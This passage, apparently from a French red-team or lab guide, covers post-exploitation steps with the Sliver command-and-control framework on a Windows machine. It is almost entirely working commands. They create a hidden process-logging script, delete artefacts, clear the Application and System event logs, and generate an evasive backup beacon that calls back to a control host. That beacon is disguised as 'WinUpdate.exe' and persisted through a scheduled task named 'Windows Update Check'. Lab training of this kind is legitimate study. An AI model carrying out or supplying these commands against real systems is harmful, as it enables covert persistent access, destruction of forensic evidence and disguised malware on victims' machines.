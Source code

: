 ### Étape 6.3 : Monitoring des Processus
```bash
# Surveiller les nouveaux processus
sliver (session) > ps

# Créer un script de monitoring
sliver (session) > execute "echo @echo off > C:\Windows\Temp\.system\monitor.bat"
sliver (session) > execute "echo :loop >> C:\Windows\Temp\.system\monitor.bat"
sliver (session) > execute "echo tasklist >> C:\Windows\Temp\.system\processes.log >> C:\Windows\Temp\.system\monitor.bat"
sliver (session) > execute "echo timeout /t 60 >> C:\Windows\Temp\.system\monitor.bat"
sliver (session) > execute "echo goto loop >> C:\Windows\Temp\.system\monitor.bat"
```

---

## 🧹 Phase 7 : Nettoyage Partiel et Maintien d'Accès

### Étape 7.1 : Suppression des Traces Évidentes
```bash
# Supprimer les fichiers temporaires (mais pas tous)
sliver (session) > execute "del C:\Windows\Temp\.system\*.txt"
sliver (session) > execute "del C:\Windows\Temp\.system\*.log"

# Garder le payload principal et les mécanismes de persistance
# Ne pas supprimer : OptimizationService.exe, tâches programmées, services
```

### Étape 7.2 : Nettoyage des Logs Système (Partiel)
```bash
# Nettoyer partiellement les logs Windows
sliver (session) > execute "wevtutil cl Application"
sliver (session) > execute "wevtutil cl System"

# Laisser intentionnellement certains logs pour l'investigation
# Ne pas nettoyer Security logs (plus suspicieux)
```

### Étape 7.3 : Établissement d'un Accès de Secours
```bash
# Créer un beacon avec intervalle plus long
sliver > generate beacon --http 192.168.56.10:8080 \
    --os windows --arch amd64 --format exe \
    --jitter 60s --interval 3600s \
    --skip-symbols --evasion \
    --save ~/project-m1/payloads/backup_beacon.exe

# Installer le beacon de secours
sliver (session) > upload ~/project-m1/payloads/backup_beacon.exe "C:\Windows\System32\WinUpdate.exe"
sliver (session) > execute "schtasks /create /tn \"Windows Update Check\" /tr \"C:\Windows\System32\WinUpdate.exe\" /sc daily /st 14:00 /f"
```

---
